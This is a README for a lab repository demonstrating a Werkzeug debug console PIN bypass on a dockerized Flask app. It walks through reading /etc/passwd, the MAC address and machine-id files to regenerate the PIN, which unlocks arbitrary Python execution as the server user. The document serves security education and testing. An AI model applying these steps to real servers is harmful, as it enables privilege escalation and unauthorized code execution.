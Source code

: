# Werkzeug Debug Console Pin Bypass
Werkzeug has a debug console that requires a pin by default. It's possible to bypass this with an LFI vulnerability or use it as a local privilege escalation vector. The debug console will lock after 10 invalid attempts which requires the server to be restarted for another 10 guesses.

The Werkzeug documentation warns users to **never** enable the debug console in production with or without a pin (https://werkzeug.palletsprojects.com/en/2.0.x/debug/#debugger-pin).

This repo provides a sample application to play with the `/console` endpoint on a dummy Flask application.

# How to use

1. Clone this repo
```
$ git clone https://wdahlenburg/werkzeug-debug-console-bypass
```

2. Build the Docker image
```
$ docker build -t werkzeug-debug-console:latest .
```

3. Run the Docker image
```
$ docker run -p 7777:7777 werkzeug-debug-console:latest
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://172.17.0.4:7777/ (Press CTRL+C to quit)
 * Restarting with stat
User: werkzeug-user
Module: flask.app
Module Name: Flask
App Location: /usr/local/lib/python3.9/site-packages/flask/app.py
Mac Address: 2485377892356
Werkzeug Machine ID: b'ea1fc30b6f4a173cea015d229c6b55b69d0ff00819670374d7a02397bc236523a57e9bab0c6e6167470ac65b66075388'

 * Debugger is active!
 * Debugger PIN: 118-831-072
```

Your server should be running on port 7777 at this point. The PIN will be displayed in the Docker logs, which is what you will be trying to recreate.


### Exploiting as a local privilege escalation

A scenario that could come up is that the Flask server is running under a certain user with privileges X. You are a local user on the system with privileges Y. You have the ability to access the same information that Werkzeug uses to generate the PIN for the user running the server. Successfully unlocking the console provides OS command injection as the user running the server.

At any point if you are unsure, you can reference the Docker logs to see the expected values for each parameter.

1. Open up a new terminal and log into Docker as some other user

```
$ docker ps                                            
CONTAINER ID   IMAGE                               COMMAND                  CREATED          STATUS          PORTS                                                                                                                                                                                          NAMES
9d0ff0081967   werkzeug-debug-console:latest       "python3 /app/server…"   16 minutes ago   Up 16 minutes   0.0.0.0:7777->7777/tcp, :::7777->7777/tcp

$ docker exec -u 0 -it 9d0ff0081967 /bin/bash
root@9d0ff0081967:/app#
```

2. Take a look at https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py for references
3. Identify the user running the server on port 7777
```
$ ps auxww | grep server
werkzeu+     1  0.0  0.1  34992 28072 ?        Ss   15:50   0:00 python3 /app/server.py
werkzeu+    10  0.0  0.1  35248 23780 ?        S    15:50   0:00 python3 /app/server.py
werkzeu+    11  0.0  0.1  35072 28276 ?        S    15:50   0:00 /usr/local/bin/python3 /app/server.py
werkzeu+    12  0.7  0.1 109316 25500 ?        Sl   15:50   0:08 /usr/local/bin/python3 /app/server.py
```
It's likely the werkzeu user is running the server, but the name is truncated.

```
$ cat /etc/passwd
...
werkzeug-user:x:1000:1000::/home/werkzeug-user:/bin/sh
```

4. Copy the `werkzeug-user` into the username field of the `werkzeug-pin-bypass.py` file.

5. Find the correct path to Flask
```
$ find / -name "app.py" 2>/dev/null
/usr/local/lib/python3.9/site-packages/flask/app.py
```

6. Update the `werkzeug-pin-bypass.py` file with this information. The location will be different if alternate Python versions or OS's are used.
7. Grab the Mac Address of the interface the server is hosting on:
```
$  python3
Python 3.9.7 (default, Sep  3 2021, 02:02:37) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import uuid
>>> str(uuid.getnode())
'2485377892356'
```

OR

```
$ cat /sys/class/net/eth0/address 
02:42:ac:11:00:04
root@9d0ff0081967:/app# python3
Python 3.9.7 (default, Sep  3 2021, 02:02:37) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> "".join("02:42:ac:11:00:04".split(":"))
'0242ac110004'
>>> print(0x0242ac110004)
2485377892356
```
9. Update the Mac address in the `werkzeug-pin-bypass.py` file.
10. In python3 run the following script to generate the machine id
```python3
machine_id = b""
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
    try:
        with open(filename, "rb") as f:
            value = f.readline().strip()
    except OSError:
        continue

    if value:
        machine_id += value
        break
try:
    with open("/proc/self/cgroup", "rb") as f:
        machine_id += f.readline().strip().rpartition(b"/")[2]
except OSError:
    pass

print(machine_id)
```
12. Update the machine id in the `werkzeug-pin-bypass.py` file.
13. Go ahead and run the werkzeug-pin-bypass.py on the attacking machine
```
$  python3 ./werkzeug-pin-bypass.py
Pin: 118-831-072
```

If all goes well you should have the same Pin as the one displayed in the Docker logs. If not, recheck your steps. If you are on an old version of Werkzeug, try changing the hashing algorithm to md5 instead of sha1.

The pin can be accepted at http://127.0.0.1/console. Once the system is unlocked you can run any python commands you want.

# Credit
The original research was done here: https://www.daehee.com/werkzeug-console-pin-exploit/

The LFI vector is listed here: https://github.com/grav3m1nd-byte/werkzeug-pin
